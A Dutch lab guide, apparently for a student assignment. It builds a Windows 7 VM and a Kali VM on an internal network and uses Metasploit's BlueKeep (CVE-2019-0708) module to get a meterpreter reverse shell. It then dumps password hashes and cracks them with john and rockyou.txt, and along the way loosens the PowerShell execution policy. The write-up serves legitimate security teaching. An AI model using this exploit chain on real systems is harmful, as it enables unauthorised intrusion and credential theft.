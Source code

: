 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:
#### Downloaden en installatie van nodige bestanden


- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png` en klik op **ISO IMAGE**
- Zet de gedownloade ISO-file in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, moeten we versie 6.1.26 downloaden via `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook deze ISO-file in dezelfde map.

#### Execution-Policy aanpassen
Soms laat je Host-Computer niet toe om powershell-scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster:

```ps
# Probeer eerst deze command
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Aanmaken Windows7-VM

- Start het `create_win7_vm.ps1` script
- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*) en vertrouw de installatie indien je dit scherm krijgt. Klik dan op **Install**.
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open op de Windows7-VM *cmd* als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali 

Zodra de Windows 7 VM klaarstaat, moet je er niets meer aan aanpassen. We gaan nu voortdoen met het opzetten van de Kali VM.

### Stap 1: Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings op je Host-Computer:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo ip addr add 10.10.10.3/24 dev eth1
sudo ip link set eth1 up
```

### Stap 2: Metasploit

**Metasploit-aanval opstarten**

```bash
# dit commando voer je gewoon uit in de linux-terminal
msfconsole

# Vervolgens voer je op de metasploit-CLI volgende commando's uit (de commando's beginnen pas na de >)

msf6 > exploit/windows/rdp/cve_2019_0708_bluekeep_rce
sf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set RHOSTS 10.10.10.2
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LHOST 10.10.10.3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LPORT 4444
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set TARGET 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> run
```

Als je al dit goed hebt uitgevoerd, zit je nu in de meterpreter-console

### Stap 3: meterpreter console gebruiken om wachtwoorden te kraken
1. Op de kali VM kan je via de meterpreter console nu de hashdumps van Windows opvragen

```bash
meterpreter > hashdump
```

2. De output van deze command kan je dan opslaan in dit bestand `~/cybersec/hashdump_win7.txt`
3. Vervolgens ga je de rockyou.txt wordlist nodig hebben, moet je misschien eerst unzippen met `gunzip /usr/share/wordlists/rockyou.txt.gz`
4. Vervolgens kan je dit commando runnen om het te kraken `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ~/cybersec/hashdump_win7.txt` 
5. Hieruit zie je dan dat het wachtwoord bv. "superman" is van de Administrator 